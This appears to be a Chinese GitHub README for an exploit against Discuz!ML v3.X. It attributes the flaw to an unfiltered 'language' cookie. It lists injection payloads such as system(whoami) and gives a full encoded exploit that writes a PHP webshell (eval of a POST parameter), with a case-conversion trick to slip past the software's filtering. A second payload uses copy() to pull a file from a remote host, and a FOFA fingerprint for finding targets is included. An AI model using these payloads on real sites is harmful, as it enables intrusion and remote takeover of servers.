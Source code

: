 [discuzML官网](http://discuz.ml/download)

漏洞发生的版本为 Discuz 国际版。Discuz!ML v3.X

用户数量不多，所以影响不大 product of codersclub.org

cookie 中 language 字段未添加 过滤所致，可以上传一句话木马

payload

'.phpinfo().'

'.system(dir).'

'.whoami.'

'.system(whoami).'

'.file_put_contents(,).'

fofa 查询特征: ```2009-2019 codersclub.org```


poc.py 为网上公布的监测poc,误报率较高

exp.txt 为 我写的exp

test.php 为我写的exp经一次url解码

test_copy.php 为检测 copy函数的php代码，验证通过

exp内容：

```%27.%20file_put_contents%28%27porta.php%27%2Curldecode%28%27%253C%253Fphp%2520%2540eval%2528%2524_%27%29.strtoupper%28urldecode%28%27POST%27%29%29.urldecode%28%27%255B%2522lee%2522%255D%2529%253B%253F%253E%27%29%29.%27```

urldecode:

```'.file_put_contents('porta.php',urldecode('%3C%3Fphp%20%40eval%28%24_').strtoupper(urldecode('POST')).urldecode('%5B%22lee%22%5D%29%3B%3F%3E')).'```

二次urldecode:

```'. file_put_contents('porta.php',urldecode('<?php @eval($_').strtoupper(urldecode('POST')).urldecode('["lee"]);?>')).'```


使用 strtoupper  因为  discuz 会 str_replace 把大写字母都换成小写字母。导致 $_POST 变成 $_post 无法写一句话木马，所以把它转化为大写

.  php  字符串连接符

第二个exp我没有复现成功,报错 directory_notfound: ./data/template

利用php copy 函数,思路还是很不错的

```copy("http:".chr(47).chr(47)."192.168.1.101:8081".chr(47)."phpinfo.php","123.php")```

